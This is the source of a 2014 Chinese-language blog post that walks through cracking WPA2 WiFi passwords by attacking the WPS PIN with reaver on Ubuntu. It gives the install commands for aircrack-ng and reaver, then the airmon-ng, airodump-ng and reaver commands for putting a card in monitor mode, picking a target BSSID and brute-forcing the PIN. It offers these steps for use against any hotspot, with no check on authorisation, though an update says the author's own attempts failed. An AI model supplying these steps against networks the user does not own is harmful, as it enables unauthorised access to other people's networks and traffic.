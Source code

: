 ```yaml
---
layout: post
title: "Creak WPA2 WiFi password with reaver under Ubuntu"
date: Sat Mar  8 16:56:13 CST 2014
tags: [Ubuntu, software, creak]
categories: Software
code: 1
mathjax: 0
---
```

{% include JB/setup %}

使用reaver破解WPA2保护的WiFi密码
---

大部分路由器存在WPS(WiFi Protected Setup)漏洞，利用这个漏洞，只需最多尝试11000（4位数字+3位数字）个密码组合就可以破解出WPS registrar PIN密码，有了这个PIN密码就可以获得WiFi的密码了，也可以更改WiFi设置。[reaver官网](https://code.google.com/p/reaver-wps/)说破解需要的时间是4-10小时，依据WiFi信号强弱而定。

---

## 安装 aircrack-ng

~~~bash
sudo apt-get install libssl-dev
wget http://download.aircrack-ng.org/aircrack-ng-1.2-beta2.tar.gz
tar -xzf aircrack-ng-1.2-beta2.tar.gz
cd aircrack-ng-1.2-beta2
make
sudo make install
~~~

注：aircrack的官网被墙
参考：<http://answertohow.blogspot.in/2012/10/how-to-install-aircrack-ng-on-ubuntu.html>

## 安装 reaver

~~~bash
sudo apt-get install libpcap-dev libsqlite3-dev iw
wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz
tar -xzf reaver-1.4.tar.gz
cd reaver-1.4/src
./configure
make
sudo make install
~~~

注：在reaver-1.4/docs里有关于reaver原理和WPS漏洞的说明
参考：<http://answertohow.blogspot.in/2012/11/how-to-install-reaver-on-ubuntu.html>

## 开始破解

### 将无线网卡设置为“监视”模式

~~~bash
sudo airmon-ng start wlan0
~~~

### 找到要破解的WiFi热点的BSSID

~~~bash
sudo airodump-ng mon0
~~~

按Ctrl + C 退出。从上面命令的输出可以找到要破解WiFi热点的BSSID，还可以确认其使用的加密方式是WPA/WPA2（在ENC这一列）。

### 启动reaver开始破解

~~~bash
reaver -i mon0 -b aa:bb:cc:dd:ee:ff -vv | tee crack.log
~~~

其中 aa:bb:cc:dd:ee:ff 换成上面得到的BSSID。然后就是祈祷了。

---

## 参考：

- [如何使用Reaver破解Wi-Fi网络的WPA密码](http://blog.csdn.net/tinyeyeser/article/details/17127805)（讲的是使用BT5刻光盘进行破解，如果不使用Linux, 可以看看这个）
- [How to Crack a Wi-Fi Network’s WPA Password with Reaver](http://answertohow.blogspot.in/2012/12/how-to-crack-wi-fi-networks-wpa.html)（这个链接讲到了如何加速破解，以及伪造MAC地址）

======
Update:

沮丧，尝试破解自己的Wifi和另一个Wifi，均未成功。
